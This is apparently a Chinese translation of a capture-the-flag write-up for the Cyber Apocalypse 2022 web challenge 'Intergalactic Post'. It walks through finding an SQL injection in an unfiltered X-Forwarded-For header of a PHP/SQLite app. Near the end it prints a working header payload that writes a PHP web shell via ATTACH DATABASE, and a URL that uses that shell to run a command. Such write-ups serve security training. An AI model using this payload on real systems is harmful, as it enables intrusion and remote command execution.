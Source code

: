 # 网络启示录 CTF 2022 —网络—星系际文章

> 原文：<https://infosecwriteups.com/cyber-apocalypse-ctf-2022-web-intergalactic-post-write-up-9f2b1acc5386?source=collection_archive---------2----------------------->

**提示:**

星际邮报
最大的星际通讯机构一直在散布关于能源危机战争的错误信息。邦妮的消息来源证实几个月前有人恶意收购了这家机构，我们怀疑是金牙军在幕后操纵。尤利西斯为我们找到了他们代理服务器的潜在接入点。你能黑进他们的新闻订阅门户让我们进去吗？

**开始:**

![](img/4ee8d4c652887b9b239af5a8280883f4.png)

这是一个网络挑战，我们有应用程序的源代码，所以我们正在下载它，并在从真正的网站上获得标志之前，在我们的本地测试它。

首先，我们正在检查网站及其功能，

![](img/9b81c308af937855b3a5e2ed866ce494.png)

它需要一封电子邮件来订阅..

![](img/48672d39e0683820db36778b3e2c3d02.png)

当我们输入电子邮件格式时，它会接受。

![](img/b4c8fb2fd822851d844578a2c321195a.png)

但是当我们给出另一种格式如 test '时，它不接受。

让我们检查源代码，它对我们的输入做了什么，以及如何过滤它。

![](img/61496ba610c0bd9d35f81c2d1ff07942.png)

当我检查它时，它使用 filter_var 函数来检查它是否是电子邮件格式。

[](https://www.w3schools.com/php/func_filter_var.asp) [## 函数的作用

### W3Schools 提供所有主要网络语言的免费在线教程、参考资料和练习。覆盖…

www.w3schools.com](https://www.w3schools.com/php/func_filter_var.asp) 

我还研究了这个函数是否有 sql 注入，因为正如您在下图中看到的，它将我们的电子邮件写入数据库。

![](img/1f1c18eb3eec177499187a73b17e2b1b.png)

我找到了下面的链接。

[](https://github.com/Xib3rR4dAr/filter-var-sqli) [## GitHub-xib 3 r 4 Dar/FILTER-var-sqli:绕过 FILTER _ SANITIZE _ EMAIL & FILTER _ VALIDATE _ EMAIL…

### 故事:在测试一个网站的时候，我碰到了它的管理面板，并且无法登录。常见的 SQLi 登录绕过…

github.com](https://github.com/Xib3rR4dAr/filter-var-sqli) 

但是此链接可以帮助 sqli 绕过电子邮件格式的登录。所以为了确保万无一失，我编辑了代码，因为没有 filter_var 函数，我用 sqlmap 进行攻击。

![](img/c639139f0cde7d8c9a56c89fa829c284.png)![](img/e60bbc7d5dd783497cffe993cb9458d6.png)

是的，我可以得到桌子等等。

但另一件事，我发现，它也获得我们的 ip 地址，并将其写入数据库，它没有任何过滤功能。

![](img/4ba296d9e4731223c1edfe26355808e4.png)

因此，我们可以添加报头来发送我们的 ip 地址。

![](img/c3196e9be1d28c5b9cf0bdb5dbeb4fa3.png)

你可以检查以下网站的有效载荷。

[http://atta.cked.me/home/sqlite3injectioncheatsheet](http://atta.cked.me/home/sqlite3injectioncheatsheet)

我们使用这个标题

```
X-Forwarded-For: blahblah','blahblah');ATTACH DATABASE '/www/lol.php' as lol;CREATE TABLE lol.pwn(dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

![](img/a9840b9ae15218cd4191effbf5f76236.png)

它接受它，因为它是有效的电子邮件，但它不检查 ip 地址的格式是否正确。

然后我们在/lol.php 有一个 web shell，可以做

```
[http://206.189.126.144:31604/lol.php?cmd=cat%20/flag*](http://206.189.126.144:31604/lol.php?cmd=cat%20/flag*)
```

![](img/377d0fea3e082158a0eebe3f6b84b53d.png)